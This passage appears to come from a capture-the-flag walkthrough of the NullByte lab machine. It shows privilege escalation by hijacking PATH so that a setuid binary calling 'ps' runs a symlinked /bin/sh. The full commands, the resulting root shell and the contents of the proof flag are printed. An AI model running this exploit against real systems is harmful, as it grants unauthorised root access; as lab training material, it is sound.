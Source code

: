 ```
Guessed arguments:
arg[0]: 0xfff4906e --> 0x7370 ('ps')
arg[1]: 0x0 
arg[2]: 0xc2 
arg[3]: 0xf76735a6 (test   eax,eax)
```

Sure enough, it was running ps, but without an absolute path. That meant I could trick the binary into running my own ps as long as I made the current directory the priority in my PATH environment. 

Back on the target I updated my PATH environment and symlinked /bin/sh into ps. Running procwatch again gave me a root shell:

```
ramses@NullByte:/var/www/backup$ export PATH=.:$PATH
ramses@NullByte:/var/www/backup$ ln -s /bin/sh ps
ramses@NullByte:/var/www/backup$ ./procwatch 
# id
uid=1002(ramses) gid=1002(ramses) euid=0(root) groups=1002(ramses)
```

All that was left was to read the flag:

```
# ls /root
proof.txt
# cat /root/proof.txt
adf11c7a9e6523e630aaf3b9b7acb51d

It seems that you have pwned the box, congrats. 
Now you done that I wanna talk with you. Write a walk & mail at
xly0n@sigaint.org attach the walk and proof.txt
If sigaint.org is down you may mail at nbsly0n@gmail.com


USE THIS PGP PUBLIC KEY

-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: BCPG C# v1.6.1.0

mQENBFW9BX8BCACVNFJtV4KeFa/TgJZgNefJQ+fD1+LNEGnv5rw3uSV+jWigpxrJ
Q3tO375S1KRrYxhHjEh0HKwTBCIopIcRFFRy1Qg9uW7cxYnTlDTp9QERuQ7hQOFT
e4QU3gZPd/VibPhzbJC/pdbDpuxqU8iKxqQr0VmTX6wIGwN8GlrnKr1/xhSRTprq
Cu7OyNC8+HKu/NpJ7j8mxDTLrvoD+hD21usssThXgZJ5a31iMWj4i0WUEKFN22KK
+z9pmlOJ5Xfhc2xx+WHtST53Ewk8D+Hjn+mh4s9/pjppdpMFUhr1poXPsI2HTWNe
YcvzcQHwzXj6hvtcXlJj+yzM2iEuRdIJ1r41ABEBAAG0EW5ic2x5MG5AZ21haWwu
Y29tiQEcBBABAgAGBQJVvQV/AAoJENDZ4VE7RHERJVkH/RUeh6qn116Lf5mAScNS
HhWTUulxIllPmnOPxB9/yk0j6fvWE9dDtcS9eFgKCthUQts7OFPhc3ilbYA2Fz7q
m7iAe97aW8pz3AeD6f6MX53Un70B3Z8yJFQbdusbQa1+MI2CCJL44Q/J5654vIGn
XQk6Oc7xWEgxLH+IjNQgh6V+MTce8fOp2SEVPcMZZuz2+XI9nrCV1dfAcwJJyF58
kjxYRRryD57olIyb9GsQgZkvPjHCg5JMdzQqOBoJZFPw/nNCEwQexWrgW7bqL/N8
TM2C0X57+ok7eqj8gUEuX/6FxBtYPpqUIaRT9kdeJPYHsiLJlZcXM0HZrPVvt1HU
Gms=
=PiAQ
-----END PGP PUBLIC KEY BLOCK-----
```

Done and done!
